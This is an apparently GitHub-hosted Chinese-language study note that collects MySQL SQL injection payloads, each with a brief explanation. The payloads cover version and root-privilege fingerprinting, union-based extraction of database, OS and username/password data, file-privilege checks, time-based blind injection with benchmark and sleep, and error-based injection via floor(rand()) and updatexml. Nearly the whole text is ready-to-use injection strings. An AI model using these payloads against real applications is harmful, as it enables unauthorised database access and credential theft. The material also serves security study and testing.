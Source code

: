## 0x01 
**收集网络上各种 sql 注入时使用的 payload 并理解其适用的环境（检测注入、利用注入）**
### MySQL 
+ and ord(mid(version(),1,1))>51
    + 确认数据库版本 51是ASCII码3 正确则>4.0 错误则<4.0，当版本大于3.0时才能使用union方法；
    + ord()是mysql的函数用于获取二进制码；
    + mid()是mysql的函数用于截位操作；

+ and ord(mid(user(),1,1))=144
    + 判断ROOT权限 返回正确说明为root权限

+ and 1=2 union all select @@global.version_compile_os from mysql.user
    + 获取操作系统信息

+ and 1=2 union select 1,2,3,concat_ws(char(32,58,32),0x7c,user(),database(),version()),5,6,7/*
    + 查看mysql基本信息
    + concat_ws(separator,str1,str2,…) 指定参数之间的分隔符并连接成一个字符串
    + concat(str1,str2,…) 函数用于将多个字符串按顺序连接成一个字符串
    + group_concat(column) 函数返回一个字符串结果，该结果由分组中的值连接组合而成

+ Union select 1,2,3concat(用户名段,0x3c,密码段),5,6,7,8,9 from 表名 limit 0,1 
+ 判断是否具有读写权限
    + and (select count(*) from mysql.user)>0/*
    + and (select count(file_priv) from mysql.user)>0/*

+ union select if(substring(current,1,1)=char(11),benchmark(5000000,encode('msg','by 5 seconds')),null) from (select database() as current) as tbl
    + benchmark(count,expr) 重复执行执行给定次数的表达式  

+ and (select 1 from(select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);
    + floor(rand()*2)报错原理 https://www.cnblogs.com/xdans/p/5412468.html

+ select case when username='admin' then 'aaa' else (sleep(3)) end from user;
    + 时间盲注配合select case when 条件触发 then 表达式

+ select count(*) from information_schema.columns A , information_schema.columns B , information_schema.tables C;
    + 笛卡尔集延时

+ 截取函数
    + substr(字符串，开始，长度)
    + substring(str，pos)，substring(str FROM pos)
    + substring(str，pos，len)，substring(str FROM pos FOR len)

+ select * from user where password ='123456789';
    + select * from user where password rlike '^1';
    + select * from user where password rlike '^12';
    + select * from user where password regexp '^12';

+ and 1=updatexml(1,concat(0x7e,(select database())),1)
    + UPDATEXML (XML_document, XPath_string, new_value);
    + 改变XML_document中符合XPATH_string的值
    + 中间值应为XPath格式的字符串
    + updatexml() 报错原理 https://www.jb51.net/article/125599.htm
    